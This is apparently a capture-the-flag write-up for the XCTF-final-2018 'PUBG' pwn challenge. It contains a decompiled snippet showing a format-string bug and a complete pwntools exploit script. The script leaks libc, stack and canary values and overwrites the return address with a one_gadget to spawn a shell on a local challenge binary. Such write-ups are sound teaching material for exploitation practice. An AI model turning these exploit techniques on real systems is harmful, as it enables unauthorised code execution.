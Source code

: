 ```yaml
---
title: 'XCTF-final-2018:PUBG'
date: 2018-11-08 11:42:26
tags:
layout: post
---
```

Interesting game
<!--more-->
# File
[PUBG][1]
# PUBG
* PICK A GUN first
* AND you have two choise : gang or gou
* gou :
    you may find AWM
* gang :
    if you dont have AWM you will die
* IF you win you can leak something and you can overflow to control the RIP
* so enjoy the game
# Entry point
*  you can leak libc by 
```python
  for ( j = 0; j <= 3; ++j )
  {
    if ( s[j] != buf[j] )
    {
      printf(s);#formatstr
      puts(" has no airdrop");
      return __readfsqword(0x28u) ^ v4;
    }
  }
```
* Luckily you can leak j .so you can burp the position of airdrop
* so you will get the AWM
* and use the only chance to leak  canary
* so go to control EIP

# EXP
```python
from pwn import *
def cmd(c):
	p.readuntil("> ")
	p.sendline(str(c))
def airdrop(c):
	cmd(2)
	p.readuntil("position:")
	p.send(c)

#context.log_level="debug"
p=process("./pubg")
p=remote("127.0.0.1",1025)
cmd(1)
cmd(1)
airdrop("%p%p%p%p\n")
p.readuntil("0x25")
base=int(p.readline(),16)-0x5cd700+0x7fd980588000-0x7fd98058d000
log.warning("Libc:%s",hex(base))
airdrop("%a%a%a%a%a")
p.readuntil("ap-10220x0.0")
stack=int("0x"+p.read(11)+"0",16)
log.info("stack:%s",hex(stack))


res=""
for x in range(3):
	for y in range(1,256):
		if (chr(y)!='n' and chr(y)!='$' and chr(y)!='*' and chr(y)!='|'):

			airdrop(res+"{}%p|%p\n".format(chr(y).ljust(3-x,'\x01')))
			p.readuntil("|")
			data=p.readline()
			if data=="(nil)\n":
				data=0
			else :
				data=int(data,16)
			if (data==x+1):
				res+=chr(y)
				break
			else:
				continue
airdrop(res)
cmd(1)
p.readuntil("chicken:\n")
canary_add=(0x7ffe2c5822c8-0x7ffe2c5823d0)+stack

p.sendline(str(canary_add+1))
sleep(0.1)
p.readuntil("The ")
data="\x00"+p.read(7)
canary=u64(data.ljust(8,'\x00'))
log.info("Cnary:%s",hex(canary))
p.readuntil("~\n")
off=0x20
one=base+0x45216
p.send("\x00"*off+p64(canary)*3+p64(one)+"\n")
p.interactive()
```

# review 
Is a interesting game
There are lots of little trick in this challenge.


[1]:https://github.com/n132/Watermalon/tree/master/XCTF_FINAL_2018/pubg